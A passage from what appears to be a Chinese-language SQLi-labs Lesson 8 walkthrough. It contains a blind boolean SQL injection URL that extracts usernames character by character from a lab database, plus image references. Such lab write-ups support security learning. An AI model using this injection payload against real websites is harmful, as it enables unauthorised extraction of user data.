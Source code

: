 ![18](/img/sql/Lesson-8/18.png)

#### 获取字段值 ####

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 68=ascii(substr((select username from security.users limit 0,1),1,1))%23`

![19](/img/sql/Lesson-8/19.png)
